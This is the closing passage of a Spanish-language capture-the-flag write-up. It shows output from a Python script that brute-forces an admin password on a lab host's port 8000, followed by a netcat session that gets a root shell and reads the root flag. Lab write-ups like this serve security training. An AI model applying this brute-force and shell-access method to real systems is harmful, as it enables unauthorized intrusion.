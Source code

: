 ```python
    print("Conexión cerrada.")
    time.sleep(1)
```

```
> python3 exploit-root.py
Conectando a 10.10.216.28:8000...
Conectado.
Enviando nombre de usuario: admin
Respuesta recibida: Password:

Probando contraseña: **********
Respuesta recibida: Password:

<SNIP>

Conexión cerrada.
Conectando a 10.10.216.28:8000...
Conectado.
Enviando nombre de usuario: admin
Respuesta recibida: Password:

Conexión cerrada.
Conectando a 10.10.216.28:8000...
Conectado.
Enviando nombre de usuario: admin
Respuesta recibida: Password:

Probando contraseña: ********
Respuesta recibida: Welcome Admin!!! Type "shell" to begin

Contraseña correcta encontrada.
```

Con las credenciales en nuestro poder, volvemos a conectarnos por **netcat**, nos autenticamos, escribimos "*shell*" y leemos la flag de root:
```
> nc 10.10.216.28 8000
admin
Password:
***********
Welcome Admin!!! Type "shell" to begin

shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
************************
# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!
